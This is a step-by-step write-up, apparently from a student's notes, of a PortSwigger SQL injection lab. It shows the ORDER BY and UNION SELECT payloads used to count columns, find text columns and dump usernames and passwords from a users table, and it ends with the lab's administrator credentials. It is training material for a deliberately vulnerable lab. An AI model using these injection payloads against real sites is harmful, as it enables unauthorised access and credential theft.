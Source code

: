 Link : https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

![image](https://github.com/user-attachments/assets/8f82d307-b3a2-4af2-8887-d8b8dcbe8bec)


Note *** you must have knowledge from previous labs ****

Given :

table_name =  users

column _name =  username and password

Goal: Perform a Sql Injection Union attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

Lets divide the lab in smaller steps:

step 1 : determining the number of columns present in the query.

step 2 : determining which columns will return string / text data type:

step 3 : retrieving username and password for users table .

step 4 (last_ step): log in as a administrator with retrieved password.


step 1 : determining the number of columns present in the query.
![image](https://github.com/user-attachments/assets/4bcd6870-ba18-4bdc-b658-62c8a5ba5cdb)


Query= ' order by 1 -- 
![image](https://github.com/user-attachments/assets/43ddac6f-bce6-41b0-ace3-55bf84725bc6)
![image](https://github.com/user-attachments/assets/a08f0902-82fb-4df6-b0b3-7b5479a7cd49)



Query = ‘ order by 2  -- 
![image](https://github.com/user-attachments/assets/7825e701-7d34-4d3b-b83a-4c5a06e9de20)
![image](https://github.com/user-attachments/assets/a84a3f20-8ccf-4d88-a843-475861b38fe2)



Query= ' order by 3 -- 

![image](https://github.com/user-attachments/assets/c3b35855-1217-4534-a77c-ad20c679fa44)

![image](https://github.com/user-attachments/assets/1ace29ab-3a48-4508-9c81-9c16ff66f6d4)


and we got error .

number of column = 3-1 = 2 


Step 2: Identify Columns with String/Text Data Type
![image](https://github.com/user-attachments/assets/9c311ef7-c3b6-4e3d-b8a6-12b2e014bdf2)


Now we will check which column will support string/text value .

Query= ' union select null,null -- 

![image](https://github.com/user-attachments/assets/7c6db3a5-1850-4ec0-a906-100e14f4d376)
![image](https://github.com/user-attachments/assets/6a997b7e-0857-4732-8d8d-94b86cc05f99)



Query = ' union select 'text1',null -- 

![image](https://github.com/user-attachments/assets/bf907d65-1e3e-4073-8b3f-9a3c63281f19)

![image](https://github.com/user-attachments/assets/71ed5b61-bd10-4f9a-9151-10d447f3859f)



Query=' union select 'text1','tex2'  -- 

![image](https://github.com/user-attachments/assets/bffa0ae5-0313-4227-bf17-ae77b4f5955b)

![image](https://github.com/user-attachments/assets/32456d9b-c4fe-444b-a42b-8065c71d9028)



and result of the query can be on below image.
![image](https://github.com/user-attachments/assets/9440e079-cac0-45a8-aa88-38fc5130cca8)






Step 3: Retrieve Usernames and Passwords
![image](https://github.com/user-attachments/assets/2e00e826-295d-4e21-ae1b-e672c224b98d)

Query=' union select username,password from users -- 

![image](https://github.com/user-attachments/assets/73b824c4-e090-41e6-842f-661dd145ec83)

![image](https://github.com/user-attachments/assets/29676045-ff3f-46df-93bf-f8dc86dcf845)




and we got the creadentials of all the users in the users table.

note *** these is lab that's why password is not in hash format in real world it always stored in hash format. ****


Step 4: Log in as an Administrator

now we got the creadential for administrator let login.

username: administrator
password : lvslwtmnaxqrdw2zhwfu
![image](https://github.com/user-attachments/assets/302d8967-a40c-419b-91b2-4b7e2d0d2b3d)


